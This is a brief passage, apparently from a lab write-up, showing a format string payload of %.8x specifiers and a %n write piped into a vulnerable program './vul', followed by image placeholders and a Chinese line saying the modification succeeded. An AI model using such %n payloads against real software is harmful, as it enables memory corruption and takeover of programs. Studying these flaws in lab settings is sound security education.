%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.8x%.26146x%n

./vul < mystring
```





修改成功！
